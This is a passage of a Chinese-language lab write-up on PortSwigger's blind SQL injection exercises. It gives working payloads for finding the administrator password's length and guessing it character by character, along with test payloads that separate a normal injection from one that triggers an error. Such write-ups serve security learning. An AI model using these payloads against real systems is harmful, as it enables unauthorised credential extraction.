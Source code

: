 | Dimension | Description                                                                                                                 |
| --------- | --------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-conditional-responses |
| Lab       | https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses                                          |

這題稍微麻煩，要一個一個字元去猜，先找出密碼的長度，結果是 20 碼

```sql
HsacENgP06akYysN' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20) = 'a
```

之後就是用二分法，一個一個把字元猜出來

```sql
AND SUBSTRING((SELECT password from users WHERE username = 'administrator'), 1, 1) > 'm
```

正常 SQL

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'HsacENgP06akYysN'
```

Injected SQL

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'HsacENgP06akYysN' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20) = 'a'
```

這題要手動爆破會累死，基本上是要工具，本來沒有下載 Burp Suite，但我看 PortSwigger 的課程一直推薦自家產品，所以還是學一下好了XD

## Lab: Blind SQL injection with conditional errors

| Dimension | Description                                                                                                              |
| --------- | ------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-conditional-errors |
| Lab       | https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors                                          |

主要的卡點

1. 之前沒有使用過 `CASE WHEN (condition) THEN (A) ELSE (B) END` 這個 SQL 語法
2. 太長的 SQL 語法我會有閱讀障礙，但如果有正常縮排，就會容易閱讀很多

這題需要先從簡單的 SQL 語法測試正常注入跟引發錯誤的情境

正常注入

```sql
jP7Ryk30JRp4JvwD' || (SELECT '' FROM dual)--
```

引發錯誤

```sql
jP7Ryk30JRp4JvwD' || (SELECT '')--
```
